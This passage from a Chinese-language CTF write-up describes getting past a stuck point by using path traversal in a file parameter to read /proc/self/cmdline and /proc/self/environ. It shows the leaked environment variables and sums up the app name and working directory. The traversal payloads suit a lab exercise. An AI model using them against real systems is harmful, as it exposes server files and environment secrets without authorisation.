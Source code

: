 <img src="CTF.assets/image-20231118162641355.png" alt="image-20231118162641355" style="zoom: 50%;" />

然后就没有头绪了，在这里卡了好久！

尝试包含`/proc`文件，把能看的都看一下，最后得到如下信息：

```
file=../../../../../proc/self/cmdline：	
python app.py			

file=../../../../../proc/self/environ：	得到下面信息
HOSTNAME=b90b9e98836f 
PYTHON_PIP_VERSION=21.2.4 
SHLVL=1 
HOME=/root 
OLDPWD=/ GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D 
PYTHON_GET_PIP_URL=https://github.com/pypa/getpip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py 
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin 
LANG=C.UTF-8 
PYTHON_VERSION=3.7.12 
PYTHON_SETUPTOOLS_VERSION=57.5.0 
PWD=/app 
PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309
```

**信息汇总：**

1. 当前文件名：`app.py`
2. 当前工作路径：`/app`
